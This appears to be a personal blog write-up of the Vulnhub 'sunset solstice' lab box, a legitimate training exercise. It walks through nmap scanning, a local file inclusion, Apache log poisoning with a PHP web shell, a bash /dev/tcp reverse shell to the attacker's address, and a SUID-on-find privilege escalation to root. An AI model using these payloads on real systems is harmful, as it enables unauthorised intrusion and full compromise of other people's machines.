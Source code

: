 ```yaml
---
title: Vulnhub - sunset solstice
description: My writeup on sunset solstice box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i.pinimg.com/originals/54/1d/f7/541df746fb87996ad2ab1dfbea249cea.png)

Hi all, let's pwn this!

You can find the machine there > [sunset solstice](https://www.vulnhub.com/entry/sunset-solstice,499/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-01 14:09 EEST
Nmap scan report for solstice.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice.zte.com.cn Hello 0xatom.zte.com.cn [192.168.1.16], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18 02:39 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp         FreeFloat ftpd 1.00
MAC Address: 08:00:27:86:82:E4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SOLSTICE; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

After lot of enumeration, i found an entry point on port `8593` there we can see this page : 

![](https://i.imgur.com/8mkXJqb.png)

If we click on `Book List` button we can see this on URL : `/index.php?book=list`, i tried for LFI and bingo got it! 

```
$ curl http://192.168.1.9:8593/index.php\?book\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
```

## Log poisoning - shell as www-data

Now i tried to read log files, and bingo we can read `/var/log/apache2/access.log` so now we can take a reverse shell! :D

Port `8593` runs on `PHP cli server`, so we cant send our payload on port `8593`. We will send it to port `80` because `/var/log/apache2/access.log` is apache log file.

```
$ nc $ip 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Wed, 01 Jul 2020 11:32:45 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```

Let's test it now.

`http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=whoami`

In the end of the output we can see this : `www-data` , perfect now let's take a reverse shell i'll use this :

`bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'` 

But first we have to URL encoded it & then send it.

```
$ curl "http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.16%2F5555%200%3E%261%27"
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@solstice:/var/tmp/webserver$ ^Z #ctrl + z
[1]+  Stopped                 nc -lvp 5555
$ stty -raw echo
$ fg
www-data@solstice:/var/tmp/webserver$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@solstice:/var/tmp/webserver$
```

## www-data -> root

After lot of enumeration, i noticed only 1 thing if you run `ps aux | grep root` you can see this : 

`root       423  0.0  2.0 196744 21056 ?        S    07:45   0:00 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`

It's a php local server, `-t` specify the document for the built-in web server so if we go there we can see that we can edit the file.

```
www-data@solstice:/var/tmp/sv$ ls -la
ls -la
total 12
drwsrwxrwx 2 root root 4096 Jun 26 15:36 .
drwxrwxrwt 9 root root 4096 Jul  1 07:45 ..
-rwxrwxrwx 1 root root   36 Jun 19 00:01 index.php
```

Server is running as root, so we can edit the file and add our payload in, we can do a trick and make the `find` binary SUID! ;-)

```
www-data@solstice:/var/tmp/sv$ > index.php
www-data@solstice:/var/tmp/sv$ printf "<?php\nsystem('chmod o+x /usr/bin/find; chmod +s /usr/bin/find');\n?>" > index.php
www-data@solstice:/var/tmp/sv$ cat index.php
<?php
system('chmod o+x /usr/bin/find; chmod +s /usr/bin/find');
?>
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57/index.php
www-data@solstice:/var/tmp/sv$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flag.

```
# cat /root/root.txt

No ascii art for you >:(

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

f950998f0d484a2ef1ea83ed4f42bbca
```

Interesting privesc! :)
